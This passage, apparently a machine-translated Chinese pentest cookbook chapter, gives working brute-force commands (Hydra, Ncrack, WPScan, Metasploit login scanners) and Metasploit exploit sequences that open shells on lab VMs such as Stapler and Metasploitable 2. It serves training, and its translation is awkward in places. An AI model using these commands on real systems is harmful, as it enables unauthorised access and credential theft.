# 四、网络利用

在本章中，我们将介绍以下配方：

*   收集凭证破解信息
*   使用自定义字列表破解 FTP
*   使用自定义 wordlist 破解 SSH
*   使用自定义字列表破解 HTTP
*   使用自定义字表破解 MySql 和 PostgreSQL
*   使用自定义字列表破解 Cisco 登录
*   利用易受攻击的服务（Unix）
*   利用易受攻击的服务（Windows）
*   使用`exploit-db`脚本利用服务

# 导言

在上一章中，我们列举了开放端口并搜索可能的漏洞。在本章中，我们将通过网络对系统进行渗透测试。为了演示，我们采用了一个名为**订书机**的易受攻击操作系统，由 g0tmi1k 制造。订书机可在[下载 https://www.vulnhub.com/entry/stapler-1，150/](https://www.vulnhub.com/entry/stapler-1,150/)。

除了 Stapper 之外，我们还将检查 MetasploitTable 2 的利用，如前一章简要介绍的。本章的目的是让读者了解两种网络级攻击向量，并演示不同类型的攻击。让我们通过在虚拟机上加载映像来开始使用 Stapper，这是一个易受攻击的操作系统虚拟机。

# 收集凭证破解信息

为了成功执行凭证破解，重要的是要有一个可能的用户名和密码列表。实现这一点的方法之一是使用 Kali Linux 发行版中提供的字典。这些位于`/usr/share/wordlists/`下。以下屏幕截图显示了 Kali 中可用的单词列表：


你会发现一个`rockyou.txt.gz`文件，你需要解压它。在终端中使用以下命令解压缩文件内容：

```
gunzip rockyou.txt.gz

```

完成此操作后，将提取文件，如前面的屏幕截图所示。这是 Kali Linux 中可用密码的预构建列表。让我们在列举和收集信息的帮助下开始制定我们的计划。

## 准备好了吗

首先，我们将找到托管订书机的 IP 地址，并开始枚举信息以收集和创建一组自定义密码。

## 怎么做。。。

配方的步骤如下所示：

1.  Discover the IP address of Stapler on the subnet, using the following command:

    ```
    nbtscan (x.x.x.1-255)

    ```

    输出将如以下屏幕截图所示：

    

2.  Run a quick `nmap` scan to find the available ports:

    ```
    nmap -sT -T4 -sV -p 1-65535 <IP address>

    ```

    输出将如以下屏幕截图所示：

    

3.  Connect to open ports and gather valuable information; let's enumerate the `ftp`, `Ssh`, and `http` ports. The following is a series of ways the information can be gathered and stored.

    **FTP 端口信息收集：**

    我们通过输入用户名和密码`Ftp: ftp`输入默认匿名登录。

    我们成功访问了登录名并找到了一个名为 note 的文件。下载时，我们得到了一些用户名。作为信息收集过程的一部分，这些信息存储在文档中。在以下屏幕截图中可以看到同样的情况：

    

    **SSH**信息收集：

    我们使用`ssh`客户端连接到 SSH，并收集如下屏幕截图所示的信息：

    

    我们又找到了一个可能的用户名。

    **HTTP**上的信息收集：

    有很多方法可以从 Web 应用程序中收集可能有用的单词。在 nmap 屏幕上，我们发现有一个端口`12380`运行 web 服务器。在访问并尝试检查`robots.txt`时，我们发现了一些有趣的文件夹，如以下截图所示：

    

    

    在访问`/blogblog/`URL 时，我们发现它是 WordPress 网站，因此我们将尝试列举 WordPress 博客的可能用户名。

    使用以下命令枚举 WordPress 用户：

    ```
     wpscan -u https://<IP address>:12380/blogblog/ --enumerate u

    ```

    输出将如以下屏幕截图所示：

    

    **通过共享方式收集信息**：

    在这里，我们将收集有助于我们建立潜在凭证列表的信息。让我们看看这是怎么可能的。我们将使用以下命令在机器上运行`enum4linux`：

    ```
    enum4linux <IP address>

    ```

    输出将如以下屏幕截图所示：

    

    通过`enum4linux`进行的共享枚举与以下屏幕截图类似：

    

    这样做，我们意识到有更多的用户名可用，因此，我们可以将它们添加到我们的用户名列表中。经过进一步评估，我们中了头奖：服务器上可用的用户名。通过`enum4linux`的 SID 枚举看起来类似于以下屏幕截图：

    

    *   现在，用户名的完整列表已形成并存储在用户名文件中，如以下屏幕截图所示：

    

    让我们对 Metasploitable 2 机器执行同样的操作。在我们的测试实验室中，Metasploitable 2 机器托管在`192.168.157.152`。我们已经创建了一个自定义的`grep`，它将为用户枚举共享，并且只提供用户名作为输出：

    ```
    enum4linux <IP address> | grep "user:" |cut -d "[" -f2 | cut           -d "]" -f1

    ```

    输出将如以下屏幕截图所示：

    

    完成后，将用户名保存在任意名称的文件中。在本例中，我们将其命名为`metasploit_users`。这可以通过使用以下命令重定向前面命令的输出来完成：

    ```
    enum4linux <IP address> | grep "user:" |cut -d "[  " -f2 |           cut -d "]  " -f1 > metasploit_users

    ```

    有了这一点，我们完成了第一个收集信息的方法，以建立一个可信的凭证字典。在下一个配方中，我们将了解如何利用此攻击并尝试访问服务器。

# 使用自定义字表破解 FTP 登录

在此配方中，我们将学习如何攻击 FTP 以找到有效登录。我们将利用前面的信息收集方法中生成的列表。

## 准备好了吗

对于此配方，我们将使用名为 Hydra 的工具。它是一个支持多种攻击协议的并行登录破解程序。Kali Linux 中有很多破解密码的工具；然而，Hydra 非常方便。现在我们有了 Hydra 和用户名列表，让我们开始攻击。

## 怎么做。。。

1.  Knowing that our username list is called `username`, ensure that terminal points to the path where the username file is. We will run the following command in the terminal:

    ```
    hydra -e nsr -L username <IP address> ftp

    ```

    输出将如以下屏幕截图所示：

    

2.  Check to see if the credentials received are working:

    

    我们连接到 FTP，如以下屏幕截图所示：

    

    我们已成功找到有效凭据并获得服务器潜在用户的登录。

## 它是如何工作的。。。

如您所见，我们在 Hydra 中使用了以下命令：

```
hydra -e nsr -L username <IP address> ftp 

```

让我们了解包含所有开关的脚本。`-e`开关有三个选项，`n`、`s`和`r`：

*   `n`：此选项检查空密码
*   `s`：此选项用于登录名作为密码
*   `r`：与登录名密码相反

`-L`检查是指定用户名列表，`ftp`是指定的协议，应该攻击该协议进行密码猜测。

## 还有更多。。。

对于不同类型的攻击，场景中可以使用更多参数。以下是几个例子：

*   `-S`：用于通过 SSL 连接端口
*   `-s`：如果不是默认端口，则用于指定要测试的协议的自定义端口
*   `-p`：用于特定密码的试用
*   `-P`：用于指定密码文件列表
*   `-C`：这是一个以冒号分隔的文件；在这里，用户名和密码列表可以采用冒号分隔的格式，例如，`user:pass`

如果您希望用户名和密码存储在文件中而不是显示在终端中，您可以使用`-o`选项，然后指定文件名，以输出内容。

# 使用自定义 wordlist 破解 SSH 登录

在本教程中，我们将学习如何攻击 SSH 以找到有效的登录名。我们将利用信息收集配方中生成的列表。

## 准备好了吗

对于这个方法，我们将使用三个工具，Hydra、Patator 和 Ncrack 来破解 SSH 密码。所有这些都在 Kali Linux 中提供。

正如 Patator Wiki 中所述，Patator 是在使用 Hydra、Medusa、Ncrack、Metasploit 模块和 Nmap NSE 脚本进行密码猜测攻击的挫折感下编写的。所有者选择了不同的方法，以避免创建另一个密码破解工具并重复相同的缺点。Patator 是一个用 Python 编写的多线程工具，它力求比以前的版本更可靠、更灵活。

关于 Ncrack 的一些信息：Ncrack 是一种高速网络身份验证破解工具。Ncrack 使用模块化方法、类似于 Nmap 的命令行语法以及能够根据网络反馈调整其行为的动态引擎进行设计。它允许对多台主机进行快速、可靠的大规模审核。它支持大多数著名的协议。

## 怎么做。。。

1.  We will use Hydra to crack the password for the SSH service on Stapler. Enter the following command in the terminal:

    ```
    hydra -e nsr -L username <IP address> ssh -t 4

    ```

    输出将如以下屏幕截图所示：

    

2.  It can also be checked using Patator; enter the following command in the terminal:

    ```
     patator ssh_login host=<IP address> user=SHayslett
    password-FILE0 0=username

    ```

    输出将如以下屏幕截图所示：

    

3.  Let us verify if the finding is true by logging in to SSH. We have successfully logged in as shown in the following screenshot:

    

4.  We can try this with the users obtained from Metasploitable 2; we will use the `ncrack` command to crack the password this time. Let us try to find a login for one of the account names, `sys`. Enter the following command in terminal to perform an SSH password cracking attack on the `sys` of our Metasploitable 2 machine:

    ```
    ncrack -v --user sys -P /usr/share/wordlists/rockyou.txt       ssh://<IP address>

    ```

    输出将如以下屏幕截图所示：

    

5.  As you can see, the password for the `sys` account has been found and login is successful:

    

## 它是如何工作的。。。

我们使用了以下命令：

```
hydra -e nsr -L username <IP address> ssh -t 4
patator ssh_login host=<IP address> user=SHayslett password-FILE0     0=username
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 <IP     address> ssh

```

让我们了解这些开关的实际功能。

如前所述，`-e`开关有三个选项，`n`、`s`和`r`：

*   `n`：此选项检查密码是否为空
*   `s`：使用登录名作为密码
*   `r`：与密码登录名相反

`-L`检查允许我们指定包含用户名的文件。`-t`开关代表任务；它并行运行多个连接。默认情况下，数字为 16。它类似于线程概念，通过并行化获得更好的性能。`-l`开关代表一个特定的用户名，`-P`开关代表要读取以进行攻击的文件列表。

让我们看看 Patator 脚本：

*   这是攻击者的攻击向量。
*   `host=`：表示要使用的 IP 地址/URL
*   `user=`：用于攻击目的的用户名
*   `password=`：这是用于暴力攻击的密码文件

让我们看看 Ncrack 脚本：

*   `-v`：此开关启用详细模式
*   `--user`：此开关允许我们提供用户名
*   `-P`：这是提供密码文件的开关

## 还有更多。。。

Patator 和 Ncrack 中有许多可用的开关。我们建议您使用不同的协议和功能，并在本书中提到的易受攻击的机器上进行测试。或者，更多信息可参见[https://www.vulnhub.com/](https://www.vulnhub.com/) 。

# 使用自定义字表破解 HTTP 登录

我们看到 Stapler 有一个 web 应用程序在端口`12380`上运行，由 WordPress 托管。在本食谱中，我们将了解如何在 WordPress 的登录面板上执行密码破解攻击。我们将在本例中使用的工具是 WPScan。

## 准备好了吗

WPScan 是一种 WordPress 扫描仪。它有许多功能，例如枚举 WordPress 版本、易受攻击的插件、列出可用插件、基于 wordlist 的密码破解。

## 怎么做。。。

1.  We will first enumerate the available WordPress logins using the enumerate user script. Enter the following command in the terminal:

    ```
    wpscan -u https://<IP address>:12380/blogblog/ --enumerate u

    ```

    输出将如以下屏幕截图所示：

    

2.  To start password cracking, we will provide the wordlist file from the available wordlist in Kali, for example, `rockyou.txt`. Enter the following command in terminal:

    ```
    wpscan -u https://<IP address>:12380/blogblog/ --wordlist        /usr/share/wordlists/rockyou.txt  --threads 50

    ```

    输出将如以下屏幕截图所示：

    

3.  Let's check if the password is valid. Visit the login page:

    ```
    https://x.x.x.x:12380/blogblog/wp-login.php

    ```

    输出将如以下屏幕截图所示：

    

## 它是如何工作的。。。

让我们了解前面命令中使用的开关：

*   `-u`：此开关指定要访问的 URL
*   `--wordlist`：此开关指定用于破解的字典或密码列表
*   `--threads`：此开关指定要加载的线程数，以通过并行作业执行实现性能

## 还有更多。。。

WPScan 具有许多功能。它允许用户枚举已安装的主题、插件、用户、timthumbs 等。最好使用 WordPress 安装中的其他可用命令来检查它们的功能。

# 使用自定义 wordlist 破解 MySql 和 PostgreSQL 登录

在这个配方中，我们将看到如何访问 MySQL 和 Postgres 数据库。我们将使用 Metasploitable 2 易受攻击的服务器来执行攻击。

## 准备好了吗

在本练习中，我们将使用 Metasploit 作为执行凭证攻击的模块，因为我们已经在前面的方法中看到了其他工具的工作方式。让我们启动 Metasploit 控制台并开始利用 SQL 服务器。

## 怎么做。。。

1.  Once you are on the Metasploit console, enter the following commands:

    ```
          use auxiliary/scanner/mysql/mysql_login
          set username root
          set stop_on_success true
          set rhosts <Target IP address>
          set pass_file /usr/share/wordlists/rockyou.txt
          exploit

    ```

    输出将如以下屏幕截图所示：

    

2.  Once this is done, wait for the script to finish. In this case, since we have given a command to stop on success, once we find the right password it will stop execution of the script. The output will be as shown in the following screenshot:

    

3.  Now let's try and crack the Postgres credentials. Enter the following in the Metasploit terminal:

    ```
          use auxiliary/scanner/postgres/postgres_login
          set rhosts <Target IP address>
          run

    ```

    扫描仪将启动，任何成功的尝试都将以绿色突出显示。请查看以下屏幕截图：

    

## 它是如何工作的。。。

我们向 Metasploit 框架提供信息，包括单词列表路径、用户名和其他相关信息。完成后，我们可以运行并使模块执行。Metasploit 启动模块并开始强制查找正确的密码（如果字典中有）。让我们了解一些命令：

*   `use auxiliary/scanner/mysql/mysql_login`：在这个命令中，我们指定将提供用户名列表的`mysql`插件
*   `set stop_on_success true`：这基本上设置了一个参数，一旦找到有效密码就停止脚本
*   `set pass_file /usr/share/wordlists/rockyou.txt`：在该命令中，我们指定脚本执行攻击时要引用的密码文件

如果在任何时候，您不知道该做什么，您可以在 Metasploit 终端中发出`show options`命令。一旦设置了`use (plugin)`命令，它将提供有助于执行脚本的必需和非必需参数。

## 还有更多。。。

变质喷发是丰度的一个框架。建议查看为基于 SQL 的服务器破解提供的其他扫描程序模块和选项。

# 使用自定义字表破解 Cisco 登录

在本食谱中，我们将了解如何访问 Cisco 设备，我们将使用 Kali 中提供的工具。我们将使用名为 CAT 的工具来执行该活动。**CAT**代表**思科审计工具**。这是一个 Perl 脚本，用于扫描 Cisco 路由器的常见漏洞。

## 准备好了吗

在本练习中，我们使用简单的密码设置了一个 Cisco 设备来演示该活动。我们不需要任何外部工具，因为一切都可以在 Kali 中获得。

## 怎么做。。。

1.  We have set up a Cisco router on `192.168.1.88`. As mentioned we will use `CAT`:

    

2.  We have used a custom wordlist for username and password, which contain the following details:

    

3.  Once you are on the Metasploit console, enter the following commands:

    ```
     CAT -h 192.168.1.88 -w /root/Desktop/cisco_users -a
    /root/Desktop/cisco_pass

    ```

    输出将如以下屏幕截图所示：

    

4.  如您所见，它攻击服务以检查有效凭据，并在单词列表中找到有效密码时使用有效密码获取。

## 它是如何工作的。。。

我们使用了以下命令：

*   `-h`：此命令告知脚本设备的主机 IP
*   `-w`：此命令告诉脚本用于攻击的用户列表
*   `-a`：此命令告诉脚本用于攻击的密码列表

## 还有更多。。。

还有一些附加功能，如`-i`、`-l`和`-q`，读者可以将这些功能作为 Cisco 设备配方的练习。

# 利用易受攻击的服务（Unix）

在此配方中，我们将利用网络级别的漏洞。这些漏洞是软件级漏洞。当我们谈论软件时，我们明确地谈论的是利用网络/端口发挥功能的软件/包。例如，FTP 服务器、SSH 服务器、HTTP 等等。此方法将涵盖 Unix 和 Windows 两种类型的一些漏洞。让我们从 UNIX 攻击开始。

## 准备好了吗

我们将在本模块中使用 Metasploit；确保在初始化 Metasploit 之前启动 PostgreSQL。我们将快速回顾在执行漏洞扫描时在 Metasploitable2 中发现的漏洞：

### 注

IP 不同，因为作者更改了内部网络的 VLAN。

漏洞扫描输出如下所示：


这个方法的先决条件是知道您的 IP 地址，因为它将用于在 Metasploit 中设置 Lhost。让我们从这里了解一些漏洞，以了解如何利用易受攻击的服务。

## 怎么做。。。

1.  Start PostgreSQL and then fire up `msfconsole`:

    ```
          service postgresql start
          msfconsole

    ```

    输出将如以下屏幕截图所示：

    

2.  We will exploit the `vsftpd` vulnerability. Enter the following in the terminal where `msfconsole` is running:

    ```
          search vsftpd
          use exploit/unix/ftp/vsftpd_234_backdoor
          set rhost <Target IP Address>
          set payload cmd/unix/interact
          set lhost <Your IP Address>
          exploit

    ```

    输出将如以下屏幕截图所示：

    

3.  The exploit ran successfully and we got to the root of the system. Let us check out an other vulnerability from the vulnerability-assessment scan we did for Metasploitable 2\. Enter the following commands in terminal:

    ```
          search distcc
          use exploit/unix/misc/distcc_exec
          set payload cmd/unix/bind_perl
          set rhost <Target IP address>
          exploit

    ```

    输出将如以下屏幕截图所示：

    

## 它是如何工作的。。。

Metasploit 是一个框架，它提供了许多工具，从枚举、利用到帮助编写利用。我们在上面看到的是 Metasploit 利用的一个示例。让我们了解`vsftpd`前面场景中发生了什么：

*   `search vsftpd`：在 Metasploit 数据库中搜索与`vsftpd`相关的任何信息
*   `use (exploit)`：指定我们要准备执行的漏洞
*   `set lhost`：设置我们机器的本地主机 IP，得到一个反向外壳
*   `set rhost`：设置目标 IP 以启动漏洞攻击
*   `set payload (payload path)`：这指定一旦成功完成利用，我们要做什么

## 还有更多。。。

Metasploit 在社区版中还附带了 GUI 版本。这将是一个好主意，看看。有关使用 Metasploit 的详细指南，请参见[https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/) 。

# 利用易受攻击的服务（Windows）

在此配方中，我们将利用 Windows 中易受攻击的服务。为了理解本节，我们有一个 Windows 7 系统，其中运行一些易受攻击的软件。我们将进行快速枚举，查找漏洞，并使用 Metasploit 对其进行攻击。

## 准备好了吗

为了开始攻击，我们需要易受攻击的 Windows 操作系统。获取那台机器的 IP 地址。除此之外，我们还需要在**CLI**（**命令行界面**中初始化 Metasploit 框架）。我们可以走了。

## 怎么做。。。

1.  Once the Windows 7 image has been downloaded, run an `nmap` scan to find the available services. Run the following command in the terminal:

    ```
    nmap -sT -sV -T4 -p 1-65535  <IP address>

    ```

    输出将如以下屏幕截图所示：

    

2.  As you can see, there are three interesting bits of software running on the remote machine; they are, `Konica Minolta FTP Utility ftpd 1.00`, `Easy File Sharing HTTP Server 6.9` and the service running on `16101` and `16102`. Checking in Google, it can be found that it is running `Blue Coat Authentication and Authorization Agent`. We check `exploit-db` to check if any of them are vulnerable:

    

    柯尼卡美能达 FTP 易受攻击：

    

    Blue Coat 身份验证和授权代理（BCAAA）易受攻击：

    

    简易文件共享 HTTP Server 7.2 也易受攻击。让我们检查一下它们是否可以被利用。

3.  We will first test the FTP. Begin by entering the following commands in the Metasploit console:

    ```
          use exploit/windows/ftp/kmftp_utility_cwd
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

    输出将如以下屏幕截图所示：

    

4.  We successfully got a shell. Now let us test for the Easy File Sharing HTTP Server. Enter the following commands in the Metasploit terminal:

    ```
          use exploit/windows/http/easyfilesharing_seh
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

    输出将如以下屏幕截图所示：

    

5.  We successfully pulled off this one as well: we got a shell. Now, let's check the last piece of software, the Blue Coat Authentication and Authorization Agent, to see if it is vulnerable to exploitation. Enter the following commands in the Metasploit terminal:

    ```
          use exploit/windows/misc/bcaaa_bof
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

    输出将如以下屏幕截图所示：

    

我们成功地利用了这三个漏洞。这就完成了这个食谱。

## 它是如何工作的。。。

我们之前已经了解了如何使用 Metasploit 进行利用。除了我们在以前的食谱中看到和使用的命令之外，没有使用新的命令。唯一的区别是调用`use`函数来加载给定的漏洞。

`set payload windows/shell_bind_tcp`命令是一个单一的有效载荷，不涉及任何阶段。成功利用该漏洞后，它会打开一个端口，端口上有一个外壳等待连接。一旦我们发送了漏洞，Metasploit 就会访问开放端口，瞧，我们有了一个 shell。

## 还有更多。。。

有各种其他方式进入系统；在我们开始利用之前，确保正确收集信息是很重要的。这样，我们就完成了我们的网络利用。在下一章中，我们将讨论后利用。

# 使用利用数据库脚本利用服务

在本配方中，我们将使用 Metasploit 框架之外的利用代码来利用 Windows SMB 服务`ms08_067`。pentester 通常依赖 Metasploit 进行其 pentesting 活动，但重要的是要了解这些是自定义脚本，它们运行并获取远程主机端口的动态输入以连接到等等。在此配方中，我们将看到如何调整漏洞脚本以匹配我们的目标并成功利用它。

## 准备好了吗

对于这个方法，我们需要使用我们一直在测试的易受攻击的 windows 机器，以及 Kali 机器本身中可用的其他工具和脚本。

## 怎么做。。。

1.  Let us first see how to use `searchsploit` to search for `ms08-067` vulnerability in the `exploit-db` database, using the following command:

    ```
    searchsploit ms08-067

    ```

    输出将如以下屏幕截图所示：

